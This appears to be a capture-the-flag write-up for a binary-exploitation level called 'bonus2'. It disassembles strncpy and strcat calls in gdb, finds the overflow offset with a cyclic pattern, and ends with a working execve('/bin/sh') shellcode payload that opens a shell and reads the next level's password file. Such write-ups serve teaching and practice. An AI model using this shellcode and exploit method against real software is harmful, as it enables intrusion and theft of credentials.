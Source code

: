 

rep stos %eax,%es:(%edi)   <====> memset(buffer, 0, sizeof(buffer));

The "rep" prefix specifies that the instruction should be repeated multiple times,

while the "stos" instruction stores the value in the %eax register to the destination pointed to by %es:%edi.

In other words, this instruction performs a repeating store of the value in the %eax register 
to consecutive memory locations starting from the address specified by %es:%edi.

This is a kind of memset on the buffer start at address esp+0x50

```
(gdb) x/4wx $esp+0x50
0xbffff680:	0x08048287	0x00000000	0x00c30000	0x00000001

(gdb) rep stos %eax,%es:(%edi) 

(gdb) x/4wx $esp+0x50
0xbffff680:	0x00000000	0x00000000	0x00000000	0x00000000
```

```
mov    0xc(%ebp),%eax
add    $0x8,%eax
mov    (%eax),%eax

movl   $0x20,0x8(%esp)
mov    %eax,0x4(%esp)

lea    0x50(%esp),%eax
add    $0x28,%eax
mov    %eax,(%esp)
call   0x80483c0 <strncpy@plt>


movl   $0x20, 0x4(%esp)   ; maximum number of characters to copy (32)
mov    %eax, (%esp)       ; source buffer (src)
lea    0x50(%esp), %eax   ; destination buffer (dest)

The parameters are passed in the following order:
dest: 0x50(%esp)
src: %eax
n: 0x20 (32)

strncpy((char*)0x50(%esp) + 0x28, (const char*)%eax, 0x20);


buffer = 0x50
strncpy(buffer + 0x28, argv[2], 0x20);
```

```
run AAAA BBBB

0xbffff690:	0x41414141	0x00000000	0x00000000	0x00000000
0xbffff6a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff6b0:	0x00000000	0x00000000	0x42424242	0x00000000
0xbffff6c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff6d0:	0x00000000	0x00000000	0x00000000	0xbfffff05

(gdb) p/d 0xbffff6b8 - 0xbffff690
$1 = 40
(gdb) p/d 0xbffff6d8 - 0xbffff6b8
$3 = 32

==

strncpy size buffer

(gdb) p 0x28
$1 = 40

(gdb) p 0x20
$2 = 32
```

```
 0x08048629 <+256>:	rep movsl %ds:(%esi),%es:(%edi)
 
 Move every dword of esi in edi
 copied all content of buffer to esp
```

function greetuser

```
0x08048494 <+16>:	 cmp    $0x2,%eax
0x080484e9 <+101>:	mov    $0x804872a,%edx

(gdb) x/s 0x804872a
0x804872a:	 "Goedemiddag! "

   0x0804850a <+134>:	lea    0x8(%ebp),%eax
   0x0804850d <+137>:	mov    %eax,0x4(%esp)
   0x08048511 <+141>:	lea    -0x48(%ebp),%eax
=> 0x08048514 <+144>:	mov    %eax,(%esp)
   0x08048517 <+147>:	call   0x8048370 <strcat@plt>

strcat("Goedemiddag! " , av[1])

puts("Goedemiddag! AAAA")
```

LANG=fi

```
run $(python -c 'print "A" * 40') "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaabaaacaaadaaaeaaafaaagaaahaaa

SIGSEGV
0x61666161

cyclic -l 0x61666161 = 18
```

```
run  $(python -c 'print "A" * 19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" ') $(python -c 'print "B" * 18 + "\xbf\xff\xf6\x50"[::-1]')

0xbffff650:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff660:	0x6a414141	0x5299580b	0x732f2f68	0x622f6868
0xbffff670:	0xe3896e69	0x80cdc931	0x42424242	0x42424242
0xbffff680:	0x42424242	0x42424242	0xf6604242	0x0000bfff


/home/user/bonus2/bonus2  $(python -c 'print "A" * 19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" ') $(python -c 'print "B" * 18 + "\xbf\xff\xf6\x50"[::-1]')

$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

Using the full path to a binary:

Reproducibility: When you use the full path, it becomes easier to reproduce the same behavior across different systems or environments.





